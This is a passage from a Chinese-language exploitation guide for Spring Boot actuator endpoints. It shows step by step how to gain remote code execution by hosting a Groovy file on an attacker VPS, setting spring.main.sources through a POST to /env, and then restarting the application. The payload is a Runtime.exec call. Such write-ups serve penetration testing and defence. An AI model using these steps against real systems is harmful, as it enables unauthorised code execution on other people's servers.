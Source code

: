 repository/springboot-restart-rce

正常访问：

```
http://127.0.0.1:9098/actuator/env


```

### 0x0B：restart spring.main.sources groovy RCE

#### 利用条件：

*   可以 POST 请求目标网站的 `/env` 接口设置属性
    
*   可以 POST 请求目标网站的 `/restart` 接口重启应用
    
*   ⚠️
    
     目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
    
*   ⚠️
    
     HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出
    
*   ⚠️
    
     环境中需要存在 groovy 依赖，否则会导致程序异常退出
    

#### 利用方法：

##### 步骤一：托管 groovy 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80

```

在根目录放置以 `groovy` 结尾的 `example.groovy` 文件，内容为需要执行的 groovy 代码，比如：

```
Runtime.getRuntime().exec("open -a Calculator")


```

##### 步骤二：设置 spring.main.sources 属性

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.main.sources=http://your-vps-ip/example.groovy


```
